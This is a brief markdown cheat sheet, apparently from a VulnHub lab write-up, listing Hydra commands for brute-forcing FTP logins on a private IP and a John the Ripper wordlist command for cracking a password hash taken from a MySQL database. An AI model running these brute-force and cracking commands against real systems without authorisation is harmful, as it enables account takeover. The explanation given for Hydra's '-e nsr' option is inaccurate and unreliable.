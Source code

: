 # Bruteforce commands

## Hydra

### FTP 
```
hydra -L usernames.txt -P usernames.txt 192.168.1.6 ftp

hydra -L users.txt -e nsr 192.168.1.6 ftp (nsr -> Using users.txt, bruteforcing the password in the reverse order)
```

https://medium.com/@bondo.mike/vulnhub-stapler-1-ab928900d614

## John

### Cracking password using wordlist

Here password hash is collected from mysql database
Content of hash.txt
John:$P$B7889EMq/erHIuZapMB8GEizebcIy9.

```
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```
Output - It identifies password of john from the word list.
